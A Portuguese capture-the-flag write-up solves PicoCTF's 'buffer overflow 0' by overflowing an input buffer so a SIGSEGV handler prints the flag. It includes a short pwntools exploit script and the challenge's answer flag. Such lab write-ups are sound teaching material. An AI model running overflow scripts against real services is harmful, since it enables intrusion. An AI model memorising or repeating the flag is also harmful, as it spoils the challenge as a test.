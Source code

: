 # WriteUp: buffer overflow 0
## Descrição do Desafio:
**Author**: Alex Fulton / Palash Oswal \
**Plataforma**: [PicoCTF](https://play.picoctf.org/practice/challenge/257?category=6&page=2) \
**Categoria**: Binary Exploitation \
**Dificuldade**: Média \
**Data**: 2022 \
**Descrição**:
> Let's start off simple, can you overflow the correct buffer?

## Passo a Passo da Solução
### 1. Análise do arquivo fornecido
O próprio desafio já fornece o arquivo fonte, `vuln.c`. Não há muito o que ver neste arquivo, nele podemos identificar vulnerabilidades de `buffer overflow`, mas a principal coisa a se notar é o seguinte trecho de código:
```c
signal(SIGSEGV, sigsegv_handler);
```
Este trecho está dizendo que quando ocorrer um evento de `SIGSEGV`, segmentation fault, é para a função `sigsegv_handler` ser chamada. Dando uma olhada nessa função podemos ver que ela imprime a `flag` para nós.
```c
void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}
```

### 2. Solução
Como dito anteriormente, o código está cheio de vulnerabilidades de `buffer overflow`, então se estourarmos qualquer buffer, causamos um erro de segmentation faul e a flag é popada para nós.

### 2.1 Solução com Python
```py
from pwn import *

p = remote(ip, porta) //Troque pelos valores fornecidos.

payload = "sssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssssss"

p.sendlineafter(b"Input: ", payload)

print(p.recvline().decode())
```

### Flag
`picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}`

## Autor da WriteUp
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)
